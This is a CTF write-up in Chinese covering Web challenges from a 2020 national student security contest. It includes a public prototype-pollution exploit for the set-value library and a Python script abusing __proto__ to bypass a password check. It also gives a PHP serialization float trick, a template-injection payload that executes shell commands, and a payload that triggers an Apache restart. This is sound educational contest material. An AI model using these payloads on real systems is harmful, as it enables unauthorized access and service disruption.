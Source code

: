 ```yaml
---
title: 第十三届全国大学生信息安全竞赛西北赛区 Web题目 Writeup
tags: 
    - Writeup
    - CTF
    - CISCN
date: 2020/8/21
---
```


## littlegame

js原型链污染，`set-value`库3.0.0旧版本。公开exploit如下：

```javascript
const setFn = require('set-value');
const paths = ['constructor.prototype.a0', '__proto__.a1',];
(function () {
    for (const p of paths) { setFn({}, p, true); }
    for (let i = 0; i < paths.length; i++) {
        if (({})[`a${i}`] === true) {
            console.log(`Yes with ${paths[i]}`);
        }
    }
})()
```

拿来主义，用就完了

阅读源码，可以发现在`/Privilege`处进行了`set-value`调用，并且在`/DeveloperControlPanel`处检查了`Admin`对象（一个普通的数组）的任意可控属性，那污染字典类型的原型，添加一个自定义属性即可。

最终exploit：

```python
from requests import session
ses = session()
host = ''

ses.get(host + '/SpawnPoint')
ses.post(host + '/Privilege', data={
    'NewAttributeKey': '__proto__.pwd',
    'NewAttributeValue': 'frankli'
})
print(ses.post(host + '/DeveloperControlPanel', data={
    'key': 'pwd',
    'password': 'frankli'
}).text)
```

## babyunserialize

见[另一篇博客](https://blog.frankli.site/2020/08/21/fatfree%20POP/)

## easytrick

一开始是联想到了Nu1l在某处的论坛里发的利用`Exception`的`__toString`来绕过判等（属性不同，不强等于），但是无奈太长了  
`SimpleXMLElement`也找不到合适的方式利用(有可能么？)

后来想了想，不可能是利用对象的`__toString`来绕过，因为这样无法同时绕过三个判断

最后发现`1.00...001`在转字符串的时候会变成`1`

```python
class trick:
    trick1 = 1.00000000000001
    trick2 = 1.000000000000001
print(serialize(trick()))
```

## 剩下两道就放个payload吧。。

* rceme: 没过滤反引号 `?a={if:var_dump(``ls``)}{end if}`
* easyphp: Apache收到SIGUSR1的时候会软重启 `?a=call_user_func&b=pcntl_wait`
